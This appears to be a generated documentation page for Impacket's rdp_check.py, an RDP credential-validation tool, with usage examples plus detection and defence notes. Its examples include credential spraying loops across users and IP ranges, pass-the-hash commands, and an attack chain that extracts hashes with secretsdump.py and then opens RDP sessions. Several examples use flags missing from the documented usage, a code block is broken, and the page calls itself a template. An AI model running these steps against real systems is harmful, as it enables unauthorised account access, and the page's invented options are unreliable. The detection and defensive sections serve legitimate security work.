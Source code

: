 # rdp_check.py

## Overview
`rdp_check.py` is an RDP service credential validation tool in the Impacket suite. This tool is categorized under Protocol Testing and provides functionality for testing account validity on remote hosts using the RDP protocol with CredSSP authentication.

## Detailed Description
`rdp_check.py` implements partial RDP (Remote Desktop Protocol) and CredSSP (Credential Security Support Provider) functionality to test whether user credentials are valid on a target system without establishing a full RDP session. The tool performs the initial RDP negotiation, establishes a TLS connection, and completes NTLM authentication through CredSSP to verify credential validity.

The tool is particularly useful for credential validation during penetration testing, as it can confirm whether obtained credentials are valid for RDP access without triggering full logon events or consuming RDP licenses. It supports both password and hash-based authentication methods.

### Key Features:
- **Credential Validation**: Test username/password combinations against RDP services
- **Hash Authentication**: Support for NTLM hash-based authentication (Pass-the-Hash)
- **CredSSP Protocol**: Implementation of Credential Security Support Provider authentication
- **TLS Integration**: Secure credential testing over encrypted TLS channels
- **Minimal Footprint**: Tests credentials without full RDP session establishment
- **No License Consumption**: Avoids consuming RDP CALs during testing

### Technical Details:
- Implements RDP Connection Negotiation Request/Response handling
- Uses CredSSP (MS-CSSP) for secure credential validation
- Establishes TLS connection for encrypted communication
- Performs SPNEGO/NTLM authentication flow
- Compatible with modern Windows RDP implementations requiring CredSSP

## Command Line Options

```
usage: rdp_check.py [-h] [-ts] [-debug] [-hashes LMHASH:NTHASH] target

Required Arguments:
  target                [[domain/]username[:password]@]<targetName or address>

Authentication:
  -hashes LMHASH:NTHASH NTLM hashes, format is LMHASH:NTHASH

Debug Options:
  -ts                   Add timestamp to every logging output
  -debug                Turn DEBUG output ON
```

## Usage Examples

### Basic Credential Testing
```bash
# Test with username and password
python3 rdp_check.py domain.com/user:password@192.168.1.100

# Test local account
python3 rdp_check.py administrator:password@192.168.1.100

# Test without domain
python3 rdp_check.py user:password@192.168.1.100
```

### Hash-based Authentication
```bash
# Pass-the-Hash testing
python3 rdp_check.py domain.com/user@192.168.1.100 \
  -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76

# Local account with hash
python3 rdp_check.py administrator@192.168.1.100 \
  -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

### Credential Spraying
```bash
# Test multiple users with same password
for user in admin administrator guest test; do
    echo "Testing $user"
    python3 rdp_check.py $user:Password123@192.168.1.100
done

# Test multiple targets
for ip in 192.168.1.{100..110}; do
    echo "Testing $ip"
    python3 rdp_check.py admin:password@$ip
done
```

# Using hash authentication
python3 rdp_check.py -hashes :ntlmhash domain.com/user@target.domain.com
```

### Advanced Usage
```bash
# Check RDP availability across multiple hosts
for host in $(cat servers.txt); do
    echo "Checking RDP on $host..."
    python3 rdp_check.py "$host"
done

# Test with different authentication methods
python3 rdp_check.py -username admin -password password123 192.168.1.100
python3 rdp_check.py -hashes :ntlmhash domain.com/user@192.168.1.100

# Check RDP with specific timeout for slow networks
python3 rdp_check.py -timeout 10 remote-server.domain.com
```

## Attack Chain Integration

### Remote Access Validation
```bash
# Step 1: Discover RDP-enabled hosts
nmap -p 3389 --script rdp-vuln-ms12-020 192.168.1.0/24

# Step 2: Validate RDP access with credentials
python3 rdp_check.py -username admin -password pass123 192.168.1.100

# Step 3: Establish RDP session for further exploitation
rdesktop -u admin -p pass123 192.168.1.100
```

### Post-compromise Access Verification
```bash
# Step 1: Extract credentials from compromised system
python3 secretsdump.py domain/user:pass@target

# Step 2: Test RDP access with extracted credentials
python3 rdp_check.py -hashes :extracted_hash domain/user@new_target

# Step 3: Establish RDP session if access confirmed
rdesktop -u user -H extracted_hash new_target
```

## Prerequisites
- Network access to target system on port 3389 (RDP)
- Valid credentials (username/password or NTLM hashes)
- Python 3.x with Impacket installed
- Target system must have RDP enabled

## Detection Considerations
- **Event IDs**: 
  - Event ID 4624/4625 (RDP logon success/failure)
  - Event ID 4778/4779 (RDP session connect/disconnect)
  - Event ID 21 (RDP-LocalSessionManager logs)
- **Network Indicators**: 
  - Connections to port 3389
  - RDP/CredSSP protocol traffic
  - SSL/TLS negotiation for RDP
- **Process Indicators**: 
  - Terminal Services processes (svchost.exe with TermService)
  - RDP-related service activity
- **File Indicators**: 
  - RDP cache files and temporary files
  - User profile activity
- **Registry Indicators**: 
  - RDP session registry entries
  - Terminal Services configuration changes

## Defensive Measures
- Enable RDP logging and monitoring (Event IDs 4778, 4779, 21)
- Implement Network Level Authentication (NLA)
- Use strong passwords and account lockout policies
- Deploy multi-factor authentication for RDP access
- Network segmentation to limit RDP exposure
- Regular monitoring of RDP access patterns

## Common Issues and Troubleshooting

### RDP Service Not Available
```bash
# Problem: Cannot connect to RDP service
# Solution: Verify RDP is enabled and accessible
nmap -p 3389 target_ip
telnet target_ip 3389
```

### Authentication Failures
```bash
# Problem: Valid credentials but authentication fails
# Solution: Check account policies and NLA requirements
# Verify account has "Allow log on through Remote Desktop Services" right
```

## Related Tools
- [secretsdump.py](secretsdump.md) - Extract credentials for RDP access
- [psexec.py](psexec.md) - Alternative remote execution method
- [wmiexec.py](wmiexec.md) - WMI-based remote execution
- rdesktop/xfreerdp - RDP clients for actual connections

---

*Note: This documentation is a template. Please refer to the actual tool's help output and source code for complete and accurate information.*
